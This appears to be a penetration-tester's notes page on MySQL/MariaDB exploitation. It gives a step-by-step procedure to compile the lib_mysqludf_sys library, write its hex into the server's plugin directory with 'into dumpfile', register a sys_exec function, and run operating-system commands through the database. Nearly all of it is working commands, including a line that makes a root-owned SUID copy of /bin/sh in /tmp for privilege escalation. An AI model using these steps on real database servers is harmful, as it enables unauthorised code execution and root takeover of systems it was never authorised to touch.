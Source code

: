 ## SQL Exploits

Exploit Plugins to execute code, substituting shellcode for SHELLCODE

This will probably require root access on the DB unless the user has the FILE permissions.

1. Git clone https://github.com/mysqludf/lib_mysqludf_sys.git.

2. Install the required libraries:

   ```bash
   sudo apt update && sudo apt install default-libmysqlclient-dev  
   ```

3. Modify the Makefile to adjust it for MariaDB on Kali:

   ```bash
   LIBDIR=/usr/lib
   install:
   
   # Change this line's `I` option for mysql
   gcc -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o $(LIBDIR)/lib_mysqludf_sys.so
   
   # To this:
   gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
   ```

4. Run the make command to create a .so file:

   ```bash
   make
   ```

5. Dump the contents of the .so file to be used to create it through mysql commands on the Databse:

   ```bash
   xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
   ```

6. Insert the shellcode into the script below after the `0x` and run the commands to create the plugin on the mysql server.

   ```sql
   # Store the shellcode in a variable
   set @shellcode = 0xHEX_SHELLCODE_GOES_HERE;
   # Notice no quotes are used above, so that maria interprets it as binary and not as a string
   # Verify the plugin directory location
   select @@plugin_dir;
   # Create a file in the plugin directory with the shellcode contents
   select binary @shellcode into dumpfile 'PLUGIN_DIR/file.so';
   # Create the function
   create function sys_exec returns int soname 'file.so';
   # Verify the function was created
   select * from mysql.func where name='sys_exec' \G
   ```

7. You can now execute commands using the sys_exec function with the database:

   ```bash
   select sys_exec('cmd1; cmd2; etc')
   
   # If mysql is running as root, you can create a bash shell owned by root with SUID set on it
   select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
   ```


Alternate way to upload a file:  https://neetech18.blogspot.com/2019/10/sql-injection-with-file-upload.html